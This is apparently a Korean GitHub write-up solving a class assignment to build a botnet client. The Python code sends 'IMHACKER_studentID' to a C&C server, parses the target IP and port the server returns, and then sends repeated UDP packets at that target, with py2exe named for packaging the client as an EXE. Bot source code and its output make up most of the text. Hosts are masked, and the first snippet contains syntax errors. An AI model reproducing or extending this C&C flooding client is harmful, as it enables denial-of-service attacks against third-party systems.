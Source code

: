 #개요
C&C SERVER에 접속해서   
공격자의 IP와 PORT정보를 받아 UDP flooding을 하는 악성코드를 작성하시오

#조건
* 악성코드는 서버(XXX.XXX.XX.XX)에 XXXX번 포트로
IMHACKER_학번 메시지를 전송한다.[10점]  
* C&C 서버로부터 공격 대상자의 IP와 PORT번호를 받고 공격지에 UDP flooding공격을 수행  
(본인학번을 10번 반복해서 전송한다.) [15점]
* 악성코드는 EXE로 작성한다. [5점]
* [보너스] 악성코드 분석가를 방해하기 위해 클라이언트 모듈 내부에서
서버주소는 인코딩 또는 암호화 기능 추가 [3점]

---
#접근  
의뢰자가 보너스 문제를 제외한 나머지만 의뢰 했으므로 위 기능은 간단하게 파이썬으로 구현 가능한 부분이다. 위의 기능을 수행하는 파이썬 코드는 아래와 같으며 py2exe를 통해 exe파일로 변환가능하다.  


먼저 IMHACKER_학번을 전송했을때 C&C서버로부터 어떤 값을 받아오는지 확인할 필요가 있다.

UDP 프로토콜을 이용하여 데이터를 SEND하는 python 코드를 작성한다.
```python
from socket import*
import time

HOST = XXX.XX.XX.XX
PORT = XXXX
payload = IMHACKER_123456789

def flood_full(v_ip, v_port):

  i = 0

  s = socket(AF_INET, SOCKDGRAM)
  s.sendto(payload)
  time.sleep(2)

  recv = s.recvfrom(1024)

  print recv

if __name__ == '__main__':

  flood_full(HOST,PORT)
```
이 스크립트를 실행했을 때의 결과는 아래와 같다.

```linux
secretpack@localhost:~$ python test.py
('OKAY_YYY.YY.YY.YY:YYYY', ('XXX.XX.XX.XX',XXXX))
```
여기서 Y문자열은 C&C에서 보내준 데이터 이고 뒤의 X문자열은 destination IP이다.  
우리가 공격에 필요한 정보는 Target의 IP와 PORT이다.  
따라서 파이썬의 슬라이스 기능을 이용하여 필요한 정보만을 추출한다.  

recv받은 데이터를 슬라이스 하는 파이썬 코드는 아래와 같다.
```python
string_var = str(target)

print ("Target_IP : ") + string_var[7:19]
print ("Target_PORT : ") + string_var[20:24]
```
위의 코드를 추가한 뒤 스크립트를 실행하면 아래와 같은 결과물을 얻을 수 있다.
```linux
secretpack@localhost:~$ python test.py
('OKAY_YYY.YY.YY.YY:YYYY', ('XXX.XX.XX.XX',XXXX))
Target_IP : YYY.YY.YY.YY
Target_PORT : YYYY
```
공격지를 받았으므로 해당 IP와 PORT에 본인 학번을 반복해서 전송하면 조건 1,2를 만족한다.

```python
from socket import*
import time

HOST = "XXX.XX.XX.XX"
PORT = XXXXX
payload_v1 = "IMHACKER_123456789"
payload_v2 = "123456789"

def flood_full(v_ip, v_port):

	i=0

	s = socket(AF_INET, SOCK_DGRAM)
	s.sendto(payload_v1, (v_ip, v_port))
	time.sleep(2)

	target = s.recvfrom(1024)
	print (target)

	string_var = str(target)

	print ("Target_IP : ") + string_var[7:19]
	print ("Target_PORT : ") + string_var[20:24]

	target_ip = string_var[7:19]
	target_port = int(string_var[20:24])

	for i in range(0, 10):
		s.sendto(payload_v2, (target_ip, target_port))

if __name__ == '__main__':

	flood_full(HOST, PORT)

```
py2exe를 이용하여 python스크립트를 EXE파일로 바꿔주면 조건 1,2,3을 모두 만족한다.  
